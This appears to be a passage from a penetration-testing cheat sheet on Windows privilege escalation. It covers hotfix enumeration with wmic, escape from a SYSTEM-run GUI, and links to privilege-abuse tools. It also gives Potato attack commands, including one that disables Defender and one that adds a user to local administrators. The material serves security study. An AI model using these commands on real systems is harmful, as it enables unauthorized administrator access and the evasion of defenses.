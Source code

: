 ### Manual discovery

```bat
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

## Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" \(Windows + F1\), search for "command prompt", click on "Click to open Command Prompt"

## Abusing privileges

Tools

```bat
- Rubeus.exe 

- Priv checklist
https://github.com/gtworek/Priv2Admin

- Enable all privs for service or network account
https://github.com/itm4n/FullPowers
```

### Hot potato

[https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)

* exe

[https://github.com/foxglovesec/Potato](https://github.com/foxglovesec/Potato)

```bat
  Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true
```

* powershell 

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

```bat
Invoke-Tater -Command "net localgroup administrators user /add"
```

### RottenPotato

**Token Impersonation**

- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) 
- [https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)
